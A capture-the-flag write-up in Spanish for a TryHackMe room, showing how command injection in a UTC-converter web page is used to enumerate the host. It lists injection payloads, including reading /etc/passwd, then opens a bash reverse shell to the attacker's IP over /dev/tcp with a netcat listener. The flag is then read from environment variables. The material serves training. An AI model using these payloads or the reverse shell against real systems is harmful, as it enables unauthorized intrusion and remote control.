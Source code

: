 Bienvenidos a una sala mas de tryhackme, en esta ocasion abusaremos una pagina web utilizando comand injection, generaremos una reverse shell para tener un entorno mas comodo y obtendremos la flag enumerando las variables de entorno del desarrollador.

# Command Injection & Reverse Shell

Nos dirigimos a la pagina web donde podremos ver un convertidor UTC. Al escribir cualquier consulta, obtendremos como respuesta `exit status 1`, podremos utilizar comandos a eleccion, pero la respuesta va a ser la misma.

Para hacer uso de command injection en esta ocasion, tendremos que utilzar parametros para obtener una vista mas detallada del sistema y poder obtener informacion.
Tendremos muchos recursos para este caso, el siguiente enlace proporciona parametros que podremos utilizar para relizar esta tarea https://github.com/payloadbox/command-injection-payload-list.
Utilizo los siguientes parametros para enumerar un poco la maquina y saber como puedo obtener una reverse shell.

```ruby
;id;
;which bash;
;which python;
;cat /etc/passwd;
;ls;
|id
& whoami &
```
Sabemos que tiene bash alojado en /usr/bin/bash. Asique lo primero, nos pondremos en escucha en nuestra maquina atacante `nc -nvlp 4444` y procedemos a inyectar el siguiente parametro dentro de la pagina web `;sh -i >& /dev/tcp/10.8.2.121/4444 0>&1;`

Una vez obtenida nuetra shell, la pista en tryhackme nos dice que al desarrollador le gusta almacenar data en variables de entorno, por lo que listaremos las variables utilizando el comando #env y veremos alli nuestra flag.
 